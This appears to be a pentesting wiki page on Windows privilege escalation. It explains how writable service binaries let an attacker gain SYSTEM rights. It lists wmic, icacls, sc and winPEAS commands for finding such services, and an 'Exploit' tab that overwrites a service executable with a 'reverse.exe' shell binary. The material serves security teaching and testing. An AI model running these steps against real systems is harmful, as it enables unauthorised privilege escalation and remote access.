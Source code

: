 # Weak File Permissions

## Theory
It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have write permissions over the folder or binary used by the service you can use it to escalate you privileges.

## Practice

If we have enought permissions over the binary of a service, we can replace it to our own binary. If you have write permissions over the folder you can do [DLL Hijacking]()

{% tabs %}
{% tab title="Enum" %}
We can get every binary that is executed by a service using wmic and check your permissions using icacls
```powershell
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

Or we can use `sc` and `icacls`
```powershell
#Get list of services
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt

#Get each permissions over BINARY_PATH_NAME 
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

Or we can use the `servicesinfo` module of winpeas
```powershell
winPEASx64.exe servicesinfo
```

{% endtab %}

{% tab title="Exploit" %}
We just have to replace the binary. 
```powershell
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```

{% endtab %}
{% endtabs %}


## References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}
